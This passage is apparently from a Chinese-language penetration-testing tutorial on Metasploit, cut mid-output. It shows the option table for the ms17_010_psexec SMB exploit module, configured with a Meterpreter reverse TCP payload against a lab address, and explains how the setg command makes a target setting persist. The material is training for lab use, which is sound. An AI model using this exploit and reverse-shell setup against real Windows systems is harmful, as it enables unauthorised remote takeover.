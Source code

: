 ```shell-session
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

此外，还有一个选项`setg`，它指定我们选择的选项在程序重新启动之前是永久的。因此，如果我们在特定的目标主机上工作，我们可以使用此命令设置 IP 地址一次，并且在我们将焦点转移到不同的 IP 地址之前不再更改它。

#### MSF - 永久目标规范

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
```